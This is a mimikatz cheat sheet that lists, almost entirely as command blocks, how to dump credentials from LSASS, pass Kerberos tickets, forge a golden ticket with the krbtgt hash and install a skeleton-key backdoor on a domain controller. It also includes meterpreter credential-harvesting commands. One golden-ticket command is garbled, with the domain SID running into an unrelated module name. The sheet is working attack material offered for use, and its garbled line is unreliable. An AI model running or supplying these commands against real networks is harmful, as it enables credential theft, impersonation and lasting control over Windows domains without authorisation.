 # mimikatz

### Dump Hshes
```bash
.\mimikatz.exe
sekurlsa::minidump /users/admin/Desktop/lsass.DMP
sekurlsa::LogonPasswords
meterpreter > getprivs
meterpreter > creds_all
meterpreter > golden_ticket_create
```

### Pass the Ticket
```bash
.\mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi
klist
dir \\<RHOST>\admin$
```

### Forging Golden Ticket
```bash
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-misc::cmd
klist
dir \\<RHOST>\admin$
```

### Skeleton Key
```bash
privilege::debug
misc::skeleton
net use C:\\<RHOST>\admin$ /user:Administrator mimikatz
dir \\<RHOST>\c$ /user:<USERNAME> mimikatz
```

